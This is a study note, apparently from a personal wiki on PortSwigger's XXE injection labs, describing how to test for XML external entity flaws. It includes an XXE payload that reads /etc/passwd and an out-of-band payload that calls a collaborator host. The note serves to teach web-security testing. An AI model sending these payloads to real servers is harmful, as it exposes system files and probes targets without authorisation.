

## Testing for XXE Injection

### General Entity Test

The first step is to test for a general entity and see if it is accepted by the server. Define a DTD and include an entity that points to a known file, such as `/etc/passwd`.

#### Example General Entity Test

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>&xxe;</storeId>
</stockCheck>
```

### Out-of-Band Interaction

Out-of-band interaction involves using a collaborator server to detect the presence of an XXE vulnerability. This method is useful when the server does not return the contents of the external entity directly.

#### Using Burp Collaborator

1. **Set Up Collaborator**: Configure Burp Collaborator to listen for incoming connections.
2. **Modify Request**: Include a reference to the collaborator server in the XML input.

#### Example Out-of-Band Request

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://collaborator.example.com">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>&xxe;</storeId>
</stockCheck>
```

### Diagram: Out-of-Band XXE Attack



---
<!-- nav -->
[[08-Parameter Entities|Parameter Entities]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/10-Understanding XXE Injection|Understanding XXE Injection]]
